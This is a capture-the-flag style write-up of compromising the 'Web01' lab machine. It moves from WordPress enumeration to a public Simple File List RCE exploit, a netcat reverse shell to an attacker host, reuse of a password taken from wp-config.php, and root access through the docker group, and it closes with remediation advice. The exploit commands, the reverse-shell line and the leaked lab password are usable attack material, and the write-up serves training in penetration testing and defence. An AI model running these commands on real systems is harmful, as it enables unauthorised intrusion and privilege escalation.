#  Web01 - Virtual Hacking Lab

| Info          | Details                                             |
| ------------- | --------------------------------------------------- |
| Platform      | Virtual Hacking Lab                                 |
| Difficulty    | Advanced                                            |
| Target IP     | 10.11.1.192                                         |
| OS            | Linux                                               |
| Vulnerability | Simple File List 4.2.2, weak password, docker group |
| Tools Used    | Nmap, Gobuster, Searchsploit                        |

## Attack Path

1. Reconnaissance
2. Enumeration
3. Vulnerability Identification
4. Exploitation
5. Post-Exploitation
6. Privilege Escalation

## Environment Setup

A structured working directory was created prior to enumeration to organize output logs and artefacts throughout the engagement.

```bash
mkdir web01
cd web01
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```

## Network Scanning

A full TCP port scan was conducted with service version detection and default Nmap scripts enabled. The -Pn flag skipped host discovery to ensure all ports were scanned regardless of ICMP response. Results were saved for reference.

```bash
ip='10.11.1.192'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



**Results:**
- Port 21
- Port 22
- Port 80

## Web Enumeration

Web App page: a blog named Wonderful Travel. Also discovered it running word press service. So we can conduct wpscan and directory brute forcing at the same time.



Directory brute forcing with Gobuster and dirsearch.

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42

# dirsearch
dirsearch -u $ip
```



**Results:** WordPress application identified.

## wpscan

Run wpscan with agressive plugin scan.

```bash
wpscan --url http://$ip: --enumerate p --plugins-detection aggressive
```





**Results:** found 6 outdated plugins
- akismet
- contact-form-7
- one-click-demo-import
- stops-core-theme-and-plugin-updates
- wordpress-importer
- wp-filemanager

Lets try to search any exploit for these vulnerabilities

Seems like not finding any useful vulnerabilities for all these plugins. 

Conducting a general wpscan:

```bash
wpscan --url http://$ip: --enumerate ap,u,t
```



## Exploit Searching

```bash
searchsploit simple file list
```



found a exploit with the exact version. 

After searching on google, found a public exploit which will fit the vulnerabilities

```bash
# Clone the repo
git clone https://github.com/0xgh057r3c0n/CVE-2025-34085.git

cd CVE-2025-34085

# Test executing a simple exploit
python3 CVE-2025-34085.py -u http://10.11.1.192 --cmd "whoami"
```



**Results:** Testing exploit successfully return the user identities which is www-data

Now execute reverse shell

```bash
# execute rce payload
python3 CVE-2025-34085.py -u http://10.11.1.192 --cmd "busybox nc 172.16.1.1 4444 -e sh"

# attacker set up a listener
sudo nc -lnvp 4444
```



```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
whoami
id
```

**Results:** Successful received a local shell, with use `www-data`

## Local Shell Enumeration

```bash
# Discovered a db username and password in
cat /var/www/html/wp-config.php
web01admin::12FF!235kfmwe
```



## Lateral Movement

By running `ls -la` showed there's some local user in the system, such as web01, ftpuser, and web01admin.

since i had the password, try `su` to the `web01admin`

```bash
su web01admin
12FF!235kfmwe
```



**Results:** Success lateral move to `web01admin` and from `id` output discovered docker group

After searching in `GTFObin`: found the method to use for privilege escalation.

## Privilege Escalations

```bash
# Privilege Escalation
docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/sh

# Enumerate shell
whoami
id
date
cat /root/key.txt
```



**Results:** Successfully retrieved the root shell and flags.


## **Remediation**

### **1. Web Application Security**

- Remove or update vulnerable plugin (**Simple File List 4.2.2**)
- Regularly update WordPress core and plugins
- Restrict file upload functionality

---

### **2. Credential Management**

- Avoid storing plaintext credentials in configuration files
- Use strong, unique passwords
- Implement environment-based secret management

---

### **3. Privilege Hardening**

- Remove users from the docker group unless absolutely necessary
- Enforce least privilege principle
- Monitor for abnormal privilege escalation

---

### **4. System Hardening**

- Apply regular patching and updates
- Restrict FTP anonymous access
- Enable logging and monitoring

